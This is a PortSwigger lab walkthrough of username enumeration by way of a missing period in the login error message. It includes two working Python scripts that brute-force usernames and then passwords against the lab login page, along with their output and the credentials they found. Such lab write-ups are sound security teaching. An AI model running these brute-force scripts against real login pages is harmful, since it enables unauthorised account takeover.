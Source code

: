 # Username enumeration via subtly different responses

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses), you'll learn: Username enumeration via subtly different responses! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames)
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221073335.png)

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221073345.png)

**Let's try to input an invalid username:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221073448.png)

When we typed an incorrect username, it'll output `Invalid username or password.`.

**Hmm... Let's try to brute force the username via a python script and see what will happened:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchUsername(filename):
    listUsername = list()

    with open(filename) as fd:
        for line in fd:
            listUsername.append(line.strip())

    return listUsername

def sendRequest(url, cookie, username):
    loginData = {
        'username': username,
        'password': 'anything'
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Invalid username or password.' not in loginRequestText:
        print(f'[+] Found user: {username}')

def main():
    url = 'https://0aae00600417467ec6e20053003100c7.web-security-academy.net/login'
    cookie = {'session': 'YSJFWoT0ornpyiDE6rqu7iTuGCDPU5lV'}

    userFileName = './auth_username.txt'
    listUsername = fetchUsername(userFileName)
    
    for username in listUsername:
        thread = Thread(target=sendRequest, args=(url, cookie, username))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_username.py 
[+] Found user: info
```

**Hmm... We found user `info`? Let's confirm that:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221073934.png)

Did you notice the differences between a valid username and an invalid username error output?

- `Invalid username or password.`
- `Invalid username or password`

**A valid username is missing the `.`!**

**Armed with above information, let's brute force the password via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    loginData = {
        'username': 'info',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Invalid username or password' not in loginRequestText:
        print(f'[+] Found password: {password}')

def main():
    url = 'https://0aae00600417467ec6e20053003100c7.web-security-academy.net/login'
    cookie = {'session': 'YSJFWoT0ornpyiDE6rqu7iTuGCDPU5lV'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    for password in listPassword:
        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password.py 
[+] Found password: 159753
```

Found it!

**Let's login as user `info`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221074232.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-4/images/Pasted%20image%2020221221074238.png)

We're user `info`!

# What we've learned:

1. Username enumeration via subtly different responses